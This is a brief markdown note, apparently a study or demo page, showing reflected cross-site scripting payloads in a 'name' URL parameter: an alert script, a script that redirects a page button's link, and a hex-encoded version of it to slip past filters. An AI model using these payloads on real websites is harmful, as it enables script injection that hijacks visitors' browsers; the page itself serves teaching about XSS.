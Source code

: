 # XSS

[Reference][1]

## Demo 1

```javascript
?name=guest<script>alert('XSS!')</script>
```

```javascript
?name=Fabian<script>window.onload = function() {var link=document.getElementsByClassName("btn");link[0].href="https://duckduckgo.com/";}</script>
```

Encode the string from ASCI to Hex (http://convertstring.com/de/EncodeDecode/HexEncode):
```
?name=Fabian%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%76%61%72%20%6c%69%6e%6b%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%62%74%6e%22%29%3b%6c%69%6e%6b%5b%30%5d%2e%68%72%65%66%3d%22%68%74%74%70%73%3a%2f%2f%64%75%63%6b%64%75%63%6b%67%6f%2e%63%6f%6d%2f%22%3b%7d%3c%2f%73%63%72%69%70%74%3e
```



[1]: http://www.thegeekstuff.com/2012/02/xss-attack-examples/
